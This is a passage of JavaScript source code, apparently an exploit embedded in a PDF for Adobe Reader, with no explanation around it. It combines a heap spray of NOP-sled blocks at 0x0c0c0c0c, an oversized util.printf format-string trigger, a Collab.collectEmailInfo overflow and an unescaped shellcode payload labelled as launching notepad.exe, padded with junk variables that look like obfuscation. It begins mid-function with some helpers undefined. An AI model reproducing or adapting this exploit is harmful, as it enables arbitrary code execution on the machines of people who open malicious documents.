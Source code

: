 ```js
        var mem_array = new Array();  
        var cH = new String();
        var nVO = new String("");
        for (var i = 0; i < 1400; i++) {
              mem_array[i] = block + heapblock;
              var sQ = new String("");
        }
        var wC = '';
        var num = 12999999999999999999888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888;
        this.bC = 3699;
        util.printf("%45000f", num);  
}
var eQ = "";

function gX() {
        var basicZ = '';
              // notepad.exe payload
        var shellcode = unescape("%uc931%u64b1%ub6bf%u558b%ud976%ud9cd%u2474%u58f4%ue883%u31fc%u0d78%u7803%ue20d%u6043%u2c45%u44e1%ub6af%u964c%ub72e%ued9a%u55a9%u1a18%u71cc%u2237%u7e30%u91b7%u1856%ue9ae%u2394%u7479%ucdff%u5e6b%ufc95%ue562%u12a2%u77ad%u53d8%u925f%u4178%ue5b2%ufc62%uf826%ub883%u9e2c%u6c59%uf5dd%u5d2a%uc113%uc7c1%ub031%u6cf7%ua2b6%u1838%u2007%u1d29%ua0b1%u0314%uaee1%ufbd8%u96df%ua80b%uc7cd%uca91%ubfab%u7091%uea13%u7a32%u7bb1%u5ba0%ue130%u3b9f%u8d42%ue4ba%u28a0%u4e20%u29d6%u0147%uf2cc%ucff0%uffb9%u2f62%uc948%u2904%ud333%ude69%u2b88%u10f3%u776b%uedee%uef80%u9fcf%u89c2%uc649%uf510%u36e3%u10fb%ud153%u40ef%u4d82%u41f6%ue4ae%u5cb1%uf58a%uaa78%u3472%u750f%u52e6%u712a%u9faf%u5fea%uc24a%u9cf3%u64f2%u0559%u5ecc%u7957%u0607%ue3a9%u828a%u26fc%uc2cc%u7f97%u1577%u2a0a%u9c21%u73c8%ube3e%u4838%uf571%u04de%uca4d%ue02c%u6126%u4c09%ucab8%u16cf%ueb5c%u3af3%uf869%u3ffd%u02b2%u2bfc%u17bf%u3214%u149e%u8f05%u0fff%uec38%u0df4%ue632%u5709%u0f5f%u481a%u6947%u7913%u5680%u864d%ufe94%u9652%uec98%ua8a6%u13b3%ub6c0%u39da%ub1c7%u1421%ub9d8%u6f32%udef2%u091c%uf4e9%ude69%ufd04%ud308%ud722%u1af7%u2f5a%u15f2%u2d5b%u2f31%u3e43%u2c3c%u26a4%ub9d6%u2921%u6d1c%uabe5%u1e0c%u059e%u8fa4%u3f0e%u3e4d%ucbaa%ud183%u5346%u40f5%ub4de%uf46f%uae52%u7901%u53fa%u1e82%uf294%u8d50%u9b01%u28cf%u50e5%ud262%ue195%u661d%u2003%ufeb8%ubcae");
              var mem_array = new Array();        
        this.googleBasicR = "";
        var cc = 0x0c0c0c0c;
        var addr = 0x400000;
        var sc_len = shellcode.length * 2;
        var len = addr - (sc_len + 0x38);
        var yarsp = unescape("%u9090%u9090");
        this.eS = "eS";
        yarsp = s(yarsp, len);
        var count2 = (cc - 0x400000) / addr;
        this.rF = false;
        this.p = "p";
        for (var count = 0; count < count2; count++) {
              mem_array[count] = yarsp + shellcode;
        }
        var bUpdate = new String(""); 
        var overflow = unescape("%u0c0c%u0c0c");
        var cP = function() {};
        this.gD = "";
        while (overflow.length < 44952) {
              this.tO = "";
              overflow += overflow; 
        }
        var adobeD = new String();
        this.collabStore = Collab.collectEmailInfo({
              subj: "",
              msg: overflow
        });
}
```